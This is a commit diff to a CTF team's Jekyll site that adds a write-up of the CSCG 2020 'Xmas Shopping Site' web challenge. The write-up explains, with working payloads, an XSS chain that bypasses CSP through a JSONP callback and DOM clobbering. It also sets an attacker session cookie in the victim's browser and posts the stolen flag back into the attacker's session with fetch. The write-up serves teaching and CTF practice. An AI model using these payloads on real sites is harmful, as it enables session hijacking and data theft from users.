

Before and after one commit to kitctf/www, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1909 px of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Add cscg20 xmas challenge
Prevent imgs from overflowing

Remove unused image

Make example a bit clearer

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -18,5 +18,7 @@
     url: https://twitter.com/edgarboda
   niklasb:
     url: https://github.com/niklasb
+  mawalu:
+    url: https://martinwagner.co
 
 teamname: KITCTF
--- /dev/null
+++ b/_posts/2020-06-28-xmas-store.md
@@ -0,0 +1,160 @@
+---
+layout: post
+title: "CSCG 2020: Xmas Shopping Site"
+categories: writeups cscg20
+tags: exploitation
+author: mawalu
+---
+
+Like a few other members of KITCTF I participated in the 2020 Cyber Security Challenge Germany Qualification. This is a writeup for "Xmas Shopping Site", one of the three web challenges that were part of the CTF.
+
+### Overview
+
+We are given a link to an online shop at `http://xss.allesctf.net/`. The subdomain already seems to be a hint that this is a client-side channel.
+
+![website screenshot](/imgs/cscg20-xmas-1.png)
+
+The site allows filtering the items using a search bar and adding items to our cart. In addition to this we can submit links for the admin to check and there is a link to "Stage2":
+
+![stage2 screenshot](/imgs/cscg20-xmas-2.png)
+
+The link looks like this `http://stage2.xss.allesctf.net/?token=5ef8ecee6a1ef` and if we change the token we can't open the stage2 page.
+
+Besides the "change background" button in the top right corner, this page is completely static.
+
+### Exploiting stage 1
+
+The search form is not escaping HTML inputs at all and also includes the search term into the page:
+
+```html
+<b>"<script>alert('test')</script>"</b> konnte nicht gefunden werden 🙁🙁🙁
+```
+
+This isn't directly exploitable because of the [CSP header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) of the page includes `default-src 'self' http://*.xss.allesctf.net;` which prevents script tags from being executed if they aren't manually whitelisted in the CSP.
+
+If we look at other resources loaded by the page we can see a call to `/items.php?cb=parseItems`. Assuming `cb` is short for callback this looks like a [JSONP](https://en.wikipedia.org/wiki/JSONP) request. The response to this request looks like this
+
+```javascript
+parseItems([{"title": "..."}])
+```
+
+which confirms our assumtion. We can combine this with the inital HTML injection vulnerability we found earlier to get a full XSS vulnerability:
+
+```html
+<script src="/items.php?cb=alert('test')"></script>
+```
+
+This is allowed by the CSP since we don't add the javascript code directly to the dom but load it from the whitelisted `xss.allesctf.net` domain.
+
+### Exploring stage 2
+
+I assumed that with full code execution on stage 1 it should be easy to redirect the user to the second stage. Ignoring the token parameter and all potential problems I started to explore stage 2 independently from the previous one. Since the background change is the only dynamic element on the second stage I took a closer look at it.
+
+The currently selected background theme is set as a hidden input element:
+
+```html
+<!-- set bg color -->
+<input type="hidden" id="bg" value="tree">
+
+<script nonce="vGXr3XcAC1g67ZaCzeAvTCzPoHc=">
+    var backgrounds = {
+        'red': [
+            '<img class="bg-img" src="/static/img/red.png"></img>'
+        ],
+        'green': [
+            '<img class="bg-img" src="/static/img/green.png"></img>'
+        ],
+        'tree': [
+            '<img class="bg-img" src="/static/img/tree.png"></img>'
+        ]
+    }
+</script>
+[...]
+<!-- What is CORS? Baby don't hurt me, don't hurt me - no more! -->
+<b>CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}</b>
+```
+
+This value is read in the `background.js` script and the corresponding element gets added to the dom:
+
+```javascript
+$(document).ready(() => {
+    $("body").append(backgrounds[$("#bg").val()]);
+});
+```
+
+To change the background image a post request including the `bg` parameter is sent to the stage2 endpoint.
+
+### Exploiting stage2
+
+We can set our own `bg` value by sending a post request to stage2. Like the search input in stage1 the `bg` value is not getting validated or escaped by the application. As a result we can modify the DOM of the page by setting a background like this:
+
+```html
+beginngin of our injection"> <b>some new tags</b> <!-- end of our injection
+```
+
+The resulting DOM looks like this:
+
+```html
+<input type="hidden" id="bg" value="beginngin of our injection"> <b>some new tags</b> <!-- end of our injection">
+<script>
+[...]
+<!-- What is CORS? Baby don't hurt me, don't hurt me - no more! -->
+<b>CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}</b>
+```
+
+Stage 2 also has a CSP set that prevents us from using direclty executing code. In addtion to that it also prevents us from using the gadget we found in the previous stage to inject a script tag. But we can include a starting HTML comment tag to remove everything between the hidden input and the flag. Using a less known javascript features we can also create our own `backgrounds` array and include our own code that way:
+
+```html
+innerHTML"><div id="backgrounds"><script>alert('test')</script></div> <!--
+```
+
+This achieves three things:
+
+ * Set the value of the `bg`  input to `innerHTML`
+ * Create a new div with the id `backgrounds` and some javascript as content
+ * Start an HTML comment so everything until the comment is closed by the existing comment tag gets ignored by the browser
+
+DOM elements that have an `id` attribute are available as global variables within javascript. So this
+
+```javascript
+// $("#bg").val() returns innerHTML since thats what we set the input to
+$("body").append(backgrounds['innerHTML']); // similar to backgrounds.innerHTML
+```
+
+appends the script we place in our div to the DOM. Because `background.js` is whitelisted in the CSP it is also allowed to create new script tags. This allows us to bypass the CSP and execute arbitrary javascript.
+
+### Combining the two
+
+Completing the challenge with this information is quite simple
+
+ * Send the admin a link to stage one with a malicious search parameter
+ * Use the code execution in stage1 to store the stage2 exploit in the admin's `bg` value
+ * Redirect the admin to stage2, the second exploit starts
+ * Read the flag and redirect the admin to a domain controlled by you. Include the flag in the URL
+ * Profit!
+
+This is not what I did during the CTF :D Instead of storing the stage 2 payload in the admin's session during stage 1, I stored it in my own session. My stage 1 exploit places a new session cookie in the admin's browser so they "see" my malicious background when he visits stage 2:
+
+```javascript
+// cookie and token are replaced with values from my session
+document.cookie = 'PHPSESSID=${cookie};domain=.xss.allesctf.net;path=/index.php';
+location.href='http://stage2.xss.allesctf.net/index.php?token=${token}
+```
+
+This was a bit tricky since the session cookie has the `httpOnly` flag set so we can't modify it. This code sets a new cookie but with an path that is longer than the one by the default session cookie (`/index.php` vs `/`). As a result the browser preferse my cookie when the admin visits stage2.
+
+The stage2 does not simply redirect the admin either, Instead I store the flag as new `bg` session value. Since the admin and I share a session I can retrieve the value in my browser:
+
+```html
+nnerHTML"> <div id="backgrounds"><script>fetch(window.location.href, {
+        headers: {'Content-type': 'application/x-www-form-urlencoded'},
+        method: "POST",
+        credentials: "include",
+        body: 'bg=' + $('b').text()
+    });</script>
+</div> <!-- a
+```
+
+### Final words
+
+I'm always happy to see a client side web challenge and this was a really nice one. And once again I learned that I have to think simpler from time to time
--- a/css/main.css
+++ b/css/main.css
@@ -413,3 +413,10 @@
   padding: 0.4em 0.6em;
   border: solid 1px #000;
 }
+
+/* Images */
+/* ----------------------------------------------------------*/
+
+img {
+  max-width: 100%;
+}
````
Also changed, not shown: imgs/cscg20-xmas-1.png (added), imgs/cscg20-xmas-2.png (added).
